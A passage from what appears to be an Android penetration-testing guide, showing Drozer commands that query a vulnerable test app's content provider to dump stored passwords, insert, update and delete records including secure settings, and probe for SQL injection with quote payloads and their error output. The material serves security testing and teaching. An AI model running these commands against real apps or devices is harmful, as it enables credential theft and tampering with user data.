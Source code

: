 Now that you have a list of accessible content providers, the next step is to attempt to extract data from each provider, which can be achieved using the `app.provider.query` module:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded)
email: incognitoguy50@gmail.com
```

In addition to querying data, Drozer can be used to update, insert and delete records from a vulnerable content provider:

- Insert record

```
dz> run app.provider.insert content://com.vulnerable.im/messages
                --string date 1331763850325
                --string type 0
                --integer _id 7
```

- Update record

```
dz> run app.provider.update content://settings/secure
                --selection "name=?"
                --selection-args assisted_gps_enabled
                --integer value 0
```

- Delete record

```
dz> run app.provider.delete content://settings/secure
                --selection "name=?"
                --selection-args my_setting
```

##### SQL Injection in Content Providers

The Android platform promotes the use of SQLite databases for storing user data. Since these databases use SQL, they can be vulnerable to SQL injection. The Drozer module `app.provider.query` can be used to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```
